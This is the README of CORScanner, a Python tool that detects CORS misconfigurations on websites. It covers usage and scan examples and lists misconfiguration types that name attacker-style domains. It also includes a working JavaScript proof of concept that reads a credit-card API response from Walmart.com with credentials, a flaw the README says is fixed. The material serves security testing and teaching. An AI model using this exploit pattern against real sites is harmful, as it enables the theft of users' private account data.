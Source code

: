 ## About CORScanner 

CORScanner is a python tool designed to discover CORS misconfigurations vulnerabilities of websites. It helps website administrators and penetration testers to check whether the domains/urls they are targeting have insecure CORS policies. 

### Features
* **Fast**. It uses [gevent](https://github.com/gevent/gevent) instead of Python threads for concurrency, which is much faster for network scanning.
* **Comprehensive**. It covers all [the common types of CORS misconfigurations](#misconfiguration-types) we know.
* **Flexible**. It supports various self-define features (e.g. file output), which is helpful for large-scale scanning.

Two useful references for understanding CORS systematically: 
* USENIX security 18 paper: [We Still Don’t Have Secure Cross-Domain Requests: an Empirical Study of CORS](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/)
* 中文详解：[绕过浏览器SOP，跨站窃取信息：CORS配置安全漏洞报告及最佳部署实践](https://www.jianjunchen.com/post/cors%E5%AE%89%E5%85%A8%E9%83%A8%E7%BD%B2%E6%9C%80%E4%BD%B3%E5%AE%9E%E8%B7%B5/)

## Screenshots

![CORScanner](images/screenshot.png "CORScanner in action")

## Installation

- Download this tool
```
git clone https://github.com/chenjj/CORScanner.git
```

- Install dependencies
```
sudo pip install -r requirements.txt
```
CORScanner depends on the `requests`, `gevent`, `tldextract`, `colorama` and `argparse` python modules.

## Python Version:

* Both Python 2 (**2.7.x**) and Python 3 (**3.7.x**) are supported.

## Usage

Short Form    | Long Form     | Description
------------- | ------------- |-------------
-u            | --url         | URL/domain to check it's CORS policy
-d            | --headers     | Add headers to the request
-i            | --input       | URL/domain list file to check their CORS policy
-t            | --threads     | Number of threads to use for CORS scan
-o            | --output      | Save the results to json file
-v            | --verbose     | Enable the verbose mode and display results in realtime
-h            | --help        | show the help message and exit

### Examples

* To check CORS misconfigurations of specific domain:

``python cors_scan.py -u example.com``

* To check CORS misconfigurations of specific URL:

``python cors_scan.py -u http://example.com/restapi``

* To check CORS misconfiguration with specific headers:

``python cors_scan.py -u example.com -d "Cookie: test"``

* To check CORS misconfigurations of multiple domains/URLs:

``python cors_scan.py -i top_100_domains.txt -t 100``

* To list all the basic options and switches use -h switch:

```python cors_scan.py -h```

## Misconfiguration types
This tool covers the following misconfiguration types:

Misconfiguration type    | Description
------------------------ | --------------------------
Reflect_any_origin       | Blindly reflect the Origin header value in `Access-Control-Allow-Origin headers` in responses, which means any website can read its secrets by sending cross-orign requests.
Prefix_match             | `wwww.example.com` trusts `example.com.evil.com`, which is an attacker's domain.
Suffix_match             | `wwww.example.com` trusts `evilexample.com`, which could be registered by an attacker.
Not_escape_dot           | `wwww.example.com` trusts `wwwaexample.com`, which could be registered by an attacker.
Substring match          | `wwww.example.com` trusts `example.co`, which could be registered by an attacker.
Trust_null               | `wwww.example.com` trusts `null`, which can be forged by iframe sandbox scripts
HTTPS_trust_HTTP         | Risky trust dependency, a MITM attacker may steal HTTPS site secrets
Trust_any_subdomain      | Risky trust dependency, a subdomain XSS may steal its secrets
custom_third_parties     | Custom unsafe third parties origins like `github.io`, see more in [origins.json](./origins.json) file. Thanks [@phackt](https://github.com/phackt)!
  
Welcome to contribute more.  
  
## Exploitation examples
Here is an example about how to exploit "Reflect_any_origin" misconfiguration on Walmart.com(fixed). Localhost is the malicious website in the video.

Walmart.com video on Youtube:

[![Walmart_CORS_misconfiguration_exploitation](https://github.com/chenjj/CORScanner/raw/master/images/walmart.png)](http://www.youtube.com/watch?v=3abaevsSHXY)

Here is the exploitation code:
```javascript
<script>
    // Send a cross origin request to the walmart.com server, when a victim visits the page.
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //reading response is allowed because of the CORS misconfiguration.
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //display the data on the page. A real attacker can send the data to his server.
        output(data);
    }

    function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>
```

If you have understood how the demo works, you can read Section 5 and Section 6 of the [CORS paper](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/) and know how to exploit other misconfigurations.

## License

CORScanner is licensed under the MIT license. take a look at the [LICENSE](./LICENSE) for more information.


## Credits
This work is inspired by the following excellent researches:

* James Kettle, “Exploiting CORS misconfigurations for Bitcoins and bounties”, AppSecUSA 2016*
* Evan Johnson, “Misconfigured CORS and why web appsec is not getting easier”,  AppSecUSA 2016*
* Von Jens Müller, "CORS misconfigurations on a large scale", [CORStest](https://github.com/RUB-NDS/CORStest)*

## Version
**Current version is 1.0**

